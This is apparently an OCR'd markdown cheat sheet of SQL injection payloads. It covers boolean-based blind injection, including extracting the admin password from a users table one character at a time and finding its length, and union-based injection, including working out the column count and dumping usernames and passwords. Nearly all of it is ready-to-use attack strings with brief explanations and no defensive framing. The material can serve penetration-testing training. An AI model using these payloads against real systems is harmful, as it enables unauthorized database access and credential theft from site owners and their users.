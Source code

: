 
### **Blind SQL Injection**
#### **Boolean-Based**
- Test for true condition:
  ```sql
  admin' AND 1=1 --
  ```
- Test for false condition:
  ```sql
  admin' AND 1=2 --
  ```

#### **Extracting Data Character by Character**
- Extract a single character from a field:
  ```sql
  admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1)='A' --
  ```
- **Explanation**:
  - `SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1)` extracts the first character of the `password`.
  - Replace `1` with the desired position.
  - Replace `'A'` with the character being tested.

#### **Determine Field Length**
```sql
admin' AND LENGTH((SELECT password FROM users WHERE username='admin'))=10 --
```
- **Explanation**:
  - `LENGTH()` returns the number of characters in the `password` field.

---

### **Union-Based SQL Injection**
#### **Testing Column Count**
- Test with increasing numbers of `NULL` until the query succeeds:
  ```sql
  ' UNION SELECT NULL --
  ' UNION SELECT NULL, NULL --
  ' UNION SELECT NULL, NULL, NULL --
  ```
- **Explanation**:
  - The number of `NULL` values must match the number of columns in the original query.

#### **Extracting Data**
- Retrieve specific data:
  ```sql
  ' UNION SELECT username, password, NULL FROM users --
  ```
- **Explanation**:
  - Replace `username` and `password` with the desired columns.
  - Ensure the number of columns matches the original query.

---
